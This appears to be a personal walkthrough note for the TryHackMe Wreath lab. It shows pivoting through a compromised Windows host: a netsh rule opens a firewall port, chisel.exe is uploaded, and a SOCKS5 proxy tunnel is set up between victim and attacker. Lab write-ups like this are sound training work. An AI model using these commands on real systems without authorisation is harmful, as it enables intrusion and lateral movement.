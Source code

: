 
We have two immediate options for this: Chisel, and Plink but but but i got a new tool recommendation today so will try to do pivoting with it rather than these tools.

So for now i will go with chisel forwards proxy as we have used the sshuttle already to connect with the git web server.

```
netsh advfirewall firewall add rule name="NAME" dir=in action=allow protocol=tcp localport=PORT
```

```
netsh advfirewall firewall add rule name="Chisel-Sardarji" dir=in action=allow protocol=tcp localport=47000
```
![[Pasted image 20240101002020.png]]


```
upload /root/TryHackMe/Wreath/chisel.exe
```
Will simply upload the chisel.exe on the victim so that we can start the server on it and listen the traffic on our side which is the attacker.

And we already have opened the firewall port on the victim machine so that we can start the proxy

```
./chisel.exe server -p 47000 --socks5
```
![[Pasted image 20240101003439.png]]

```
chisel client 10.200.101.150:47000 9090:socks
```
![[Pasted image 20240101003508.png]]


